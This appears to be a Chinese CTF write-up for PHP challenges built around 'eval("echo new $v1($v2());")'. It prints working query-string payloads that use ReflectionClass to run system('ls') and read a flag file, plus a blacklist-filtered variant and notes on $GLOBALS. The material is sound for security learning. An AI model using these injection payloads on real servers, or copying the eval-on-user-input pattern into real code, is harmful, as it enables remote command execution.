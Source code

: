#### <font color="yellow">形如 new $v1($v2())</font>
心得:
```
一般是找到对应的php自带类，以及类相关的方法,比如之前的php 反射类
```
```
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
?>
```
payload
```php
?v1=ReflectionClass&v2=system('ls')
?v1=ReflectionClass&v2=system('cat fl36dg.txt')
```
<a href="https://blog.csdn.net/baidu_35085676/article/details/52002579">getcwd()函数的用法</a></br>
<a href="https://blog.csdn.net/chenrenchou1924/article/details/100999849">PHP使用FilesystemIterator迭代器遍历目录</a>
紧接上一题
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");
}
?>
```
#### <font color="yellow">php超全局变量$GLOBALS的使用</font>
解释:
```
$GLOBALS — 引用全局作用域中可用的全部变量
一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
```
例子:
```php
$a=123;
$b=456;
var_dump($GLOBALS);
```
部分输出:
```php
  ["a"]=>
  int(123)
```